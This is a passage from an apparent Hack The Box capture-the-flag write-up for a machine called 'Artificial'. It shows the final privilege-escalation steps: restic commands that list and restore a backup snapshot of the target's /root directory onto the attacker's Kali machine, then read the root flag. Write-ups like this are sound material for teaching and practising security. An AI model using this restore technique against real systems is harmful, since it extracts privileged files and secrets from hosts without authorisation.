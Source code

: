 4. Verify the snapshot:
```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Artificial/Root/rest-server_0.14.0_linux_amd64]
└─$ restic -r /tmp/restic-data/myrepo snapshots
enter password for repository: 
repository e63f3a98 opened (version 2, compression level auto)
created new cache in /home/mdn0x/.cache/restic
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
2bb53c50  2025-08-25 14:53:03  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

5. Restore the directory:
```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Artificial/Root/rest-server_0.14.0_linux_amd64]
└─$ restic -r /tmp/restic-data/myrepo restore 2bb53c50 --target ./restore
enter password for repository: 
repository e63f3a98 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot 2bb53c50 of [/root] at 2025-08-25 12:53:03.559593645 +0000 UTC by root@artificial to ./restore
Summary: Restored 80 files/dirs (4.299 MiB) in 0:0
```

Now we have access to the /root folder on our machine:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Artificial/Root/restore/root]
└─$ cat root.txt 
  HTB{{REDACTED_FLAG}}
```

Pwned !! Not so easy.